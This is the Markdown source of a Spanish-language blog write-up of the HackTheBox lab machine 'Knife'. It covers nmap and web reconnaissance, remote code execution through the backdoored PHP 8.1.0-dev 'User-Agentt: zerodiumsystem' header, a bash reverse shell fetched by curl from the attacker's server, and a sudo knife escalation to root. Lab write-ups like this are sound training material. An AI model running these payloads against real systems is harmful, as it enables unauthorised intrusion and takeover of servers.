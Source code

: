 ```yaml
---
layout: single
author_profile: true
title: HTB Knife
excerpt: "Vamos a resolver la maquina Knife de HackTheBox. ¡Let's hack!"
date: 2022-04-28
classes: wide
header:
  teaser: /assets/images/knife/01inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Knife
---
```


<p style="text-align: center;">
<img src="/assets/images/knife/01inicio.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la maquina **Knife** de [HackTheBox](https://app.hackthebox.com/).
La maquina es nivel “Easy”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear un directorio de trabajo con el nombre `knife` y los subdirectorios `nmap` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
❯ mkdir knife
❯ cd !$
cd knife
❯ mkdir nmap exploit
```

## RECONOCIMIENTO  

Accedemos al directorio `nmap` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.242 | grep ttl | awk '{print $4,$6}'
10.10.10.242: ttl=63
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTheBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.242 -oG openPorts | grep open
22/tcp open  ssh
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
❯ nmap -p22,80 -sCV 10.10.10.242 -oG deepScan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-17 13:38 -05
Nmap scan report for 10.10.10.242
Host is up (0.090s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos identificar que el puerto `80` tiene una página web en servicio, por lo que revisamos con el explorador la página en cuestión.

<p style="text-align: center;">
<img src="/assets/images/knife/03page.png">
</p>

Vamos a realizar un **fuzzing** por medio de la generación de múltiples peticiones con diferentes terminaciones a la página web, con el fin de detectar rutas de acceso a información o explotación, sin embargo, no es posible la extracción de información que fuera de ayuda para el ejercicio (solo muestro el comando para fines educativos).

```bash
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
```

A continuación, vamos a realizar la enumeración de software utilizado para la creación de la página web a través de la utilidad `whatweb`.

```bash
❯ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Scrip>
```

Como se puede ver, tenemos la versión `PHP 8.1.0-dev`, la cual vamos a buscar en la base de datos de exploits por medio de la utilidad `searchsploit`

```bash
❯ searchsploit PHP 8.1.0-dev | grep dev
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution	| php/webapps/49933.py
```

Encontramos un exploit que genera un backdoor por medio de una modificación en las cabeceras de la petición web, todo esto por con el fin de lograr un RCE (Remote Command Excecution).

```bash
"User-Agentt: zerodiumsystem ('whoami');"
```

## EXPLOTACIÓN

Bien, ahora que tenemos conocimiento de esta vulnerabilidad, vamo a probar en la maquina victima por medio de la utilidad `curl` que nos permite modificar parámetros como en este caso el **User Agent** (Entramos a la carpeta exploit antes de ejecutar nuestra prueba).

```bash
cd ../exploit
❯ curl -s -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem ('whoami');" | head -n 1
james
```
¡Tenemos ejecución remota de comandos! Podemos ver que el usuario `james` es un usuario de la maquina víctima.

Vamos a generar una reverse shell en bash para cargarla y después ejecutarla en la máquina, para esto creamos el archivo `escalation.sh` con el siguiente contenido.

```bash
❯ cat escalation.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.12/5555 0>&1'
```

Ahora que tenemos nuestra reverse shell, vamos a iniciar en nuestra maquina un servidor web con ayuda de `python`

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Luego de tener nuestro servidor activo, generamos una petición al servidor web victima por medio del exploit encontrado anteriormente, en esta ocasión para **subir** el archivo en la maquina vulnerable.

```bash
❯ curl -s -X GET http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem(" curl http://10.10.14.12:8000/escalation.sh -o /tmp/escalation.sh ");'
```

Al tener la reverse shell solo queda ejecutarlo, sin embargo, antes de ejecutar el comando es necesario ponerse en escucha por el puerto que se indicó al momento de configurar la reverse shell, para este caso es el puerto `5555`.

```bash
❯ nc -lnvp 5555
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
```
Finalmente ejecutamos el comando para accionar la reverse shell desde la maquina víctima.

```bash
❯ curl -s -X GET http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem(" bash /tmp/escalation.sh ");'
```

Vamos a verlo en acción.

<p style="text-align: center;">
<img src="/assets/images/knife/04intrusion.png">
</p>

¡Obtenemos acceso a la maquina!

El primer paso luego de obtener una shell es realizar el tratamiento de la TTY, por lo que dejare el procedimiento de cómo realizarlo (Esto se hace inicialmente en la maquina a la cual tenemos acceso).

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Ahora que estamos dentro de la maquina con el usuario `james`, vamos a escalar privilegios para lograr ser `root`, pero antes de eso vamos a leer la flag del usuario.

```bash
james@knife:/$ find . -name user.txt 2>/dev/null
./home/james/user.txt
james@knife:/$ head -c 10 ./home/james/user.txt; echo
b2bf0e7aa5
```
## ESCALAMIENTO

¡Perfecto! Ahora si vamos a revisar permisos por medio del comando `sudo -l`, así podremos ver qué tipo de utilidades puede ejecutar el usuario `james` con privilegios.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Vemos que `james` puede ejecutar el comando `knife` sin necesidad de ingresar credenciales.

Por medio del recurso [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) identificamos una vía potencial de escalamiento de privilegios, ejecutando lo siguiente.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

Procedemos a realizar la prueba en nuestra maquina vulnerada.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
```

¡Logramos tener acceso a la maquina como `root`!

Solo hace falta buscar la flag correspondiente y eso sería todo.

```bash
# find . -name root.txt 2>/dev/null
./root/root.txt
# head -c 10 ./root/root.txt ; echo
4b01b07a6d
```

¡Hemos logrado nuestra primera maquina del blog en HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/knife/05finish.png">
</p>

Por último, les recomiendo seguir **practicando** y si pueden generar contenido, mucho mejor! Espero les pueda servir de algo este material.

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**

